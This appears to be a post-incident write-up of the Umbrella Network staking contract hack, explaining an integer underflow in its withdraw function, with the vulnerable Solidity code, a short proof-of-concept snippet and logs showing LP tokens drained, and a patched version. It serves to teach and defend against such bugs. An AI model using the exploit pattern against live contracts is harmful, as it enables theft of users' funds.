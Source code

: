 # Umbrella

![hi Image](../images/umbrella/jo.avif)

## What's Umbrella?
Umbrella Network is a community owned, scalable and cost efficient oracle for the DeFi and blockchain community. 
Umbrella believes a community owned Oracle is not only possible, but essential to creating a truly decentralized financial system.

## Amount stolen
**$700k USD**



## Vulnerability
Underflow


## Analysis

The contract was exploited by underflow that occurred in withdrawal, The mechanism of underflow involves the binary representation of numbers. Consider a uint8, where the binary representation of 0 is 00000000. Subtracting 1 from it transforms the binary to 11111111, equivalent to 255 in decimal. Unlike a signed Integer (int8) that can be negative due to its first bit that indicates +/- :) 

So, if using _balances[user] = _balances[user] - amount;  is called without checks, and _balances[user] is 0, subtracting the amount will wrap around to the maximum value of the data type, not become negative and not fail in this case. 

So the transfer method will be called afterward and successfully drain the funds to the victim's wallet.


### Exploited code

```solidity
      function _withdraw(uint256 amount, address user, address recipient) internal nonReentrant updateReward(user) {
        require(amount != 0, "Cannot withdraw 0");

        // not using safe math, because there is no way to overflow if stake tokens not overflow
        _totalSupply = _totalSupply - amount;
        _balances[user] = _balances[user] - amount;   //<---- underflow here.

        require(stakingTOken.transfer(recipent,amount),"token transfer failed");
      }
```

#### for example:

```
// Initial state
_totalSupply = 100;
_balances[user] = 0;
amount = 50;  // the amount to withdraw 

// After withdrawal
_totalSupply = _totalSupply - amount;  // 100 - 50 = 50
_balances[user] = _balances[user] - amount;  // 0 - 50 = underflow
```


# proof of concept (PoC) 


```solidity
       emit log_named_decimal_uint("Before exploiting, Attacker UniLP Balance", uniLP.balanceOf(address(this)), 18);

       StakingRewards.withdraw(8_792_873_290_680_252_648_282); //without putting any crypto, we can drain out the LP tokens in uniswap pool by underflow.

       emit log_named_decimal_uint("After exploiting, Attacker UniLP Balance", uniLP.balanceOf(address(this)), 18);
```

Logs:
```
  Before exploiting, Attacker UniLP Balance: 0.000000000000000000
  After exploiting, Attacker UniLP Balance: 8792.873290680252648282
```


# Solution

The method `_withdraw` should check wether the user has enough balance, and/or to prevent underflow it can use the `safe math` library using `.sub` instead of a `-` sign

```solidity
  function _withdraw(uint256 amount, address user, address recipient) internal nonReentrant {
        require(amount != 0, "Cannot withdraw 0");
        require(_balances[user] >= amount, "Insufficient balance for withdrawal");

        // Use safe math to prevent underflow
        _totalSupply = _totalSupply.sub(amount);
        _balances[user] = _balances[user].sub(amount);

        require(stakingTOken.transfer(recipent,amount),"token transfer failed");
    }

```


# Summary

Underflows are extremely common in smart contracts and they should be prevented by the safemath library 
especially in methods involving transactions, to safeguard against underflows. While it may introduce 
additional gas costs, the security benefits far outweigh the risks associated with potential vulnerabilities 



**Code provided by:** [DeFiHackLabs](https://github.com/SunWeb3Sec/DeFiHackLabs/blob/main/src/test/Umbrella_exp.sol)


[**< Back**](https://patronasxdxd.github.io/CTFS/)

